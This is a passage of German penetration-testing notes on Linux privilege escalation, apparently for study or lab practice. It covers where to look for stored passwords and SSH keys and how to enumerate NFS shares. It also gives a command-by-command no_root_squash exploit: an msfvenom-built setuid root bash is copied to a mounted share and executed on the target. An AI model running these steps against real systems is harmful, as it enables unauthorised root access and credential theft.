 Grundsätzlich nachdem ein Passwort gefunden wurde, sollte stets ein Login als root ausprobiert werden.

#### History Files

Im Hauptverzeichnis des Benutzers befinden sich einige History Files, welche unter Umständen Passwörter beinhalten könnten.

#### Config Files

Config Files unterschiedlicher Services könnten Passwörter oder Links zu Passwörtern beinhalten.

#### SSH Keys

Mit einem Private Key ist vermutlich stets ein SSH Login möglich, daher sicher speichern.

## NFS (Network File System)

Nützliche Befehle:

```
#Shares anzeigen mit bash oder nmap
showmount -e <target-ip>
nmap -sV --script=nfs-showmount <target-ip>

#NFS Share mounten
mount -o rw,vers=2 <target-ip>:<share> <local-directory>
```

Wenn Dateien auf einem Share angelegt werden, haben diese als Owner/Group den tatsächlichen Ersteller eingetragen, auch wenn dieser auf dem System nicht existiert. Dateien, welche als root angelegt werden, bekommen durch die (Default-) Konfiguration **root squashing** allerdings den Owner **nobody**. Wenn jedoch die Option **no_root_squash** verwendet wird, kann dies u.U. für PrivEsc ausgenutzt werden. 

<img src="C:\Users\dani\AppData\Roaming\Typora\typora-user-images\image-20200726192045861.png" alt="image-20200726192045861" style="zoom:80%;" />

Hierfür wird von Kali aus eine Bash als root mit msfvenom erzeugt und auf den Share mit den entsprechenden Bits kopiert:

```bash
#Szenario: Sharename ist /tmp auf Zielsystem

mkdir /tmp/nfs
mount -o rw,vers=2 <target-ip>:/tmp /tmp/nfs
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
chmod +xs /tmp/nfs/shell.elf

#Auf Zielsystem anschließend die Shell ausführen
/tmp/shell.elf
```

![image-20200726192507554](C:\Users\dani\AppData\Roaming\Typora\typora-user-images\image-20200726192507554.png)

<img src="C:\Users\dani\AppData\Roaming\Typora\typora-user-images\image-20200726192549433.png" alt="image-20200726192549433" style="zoom: 80%;" />
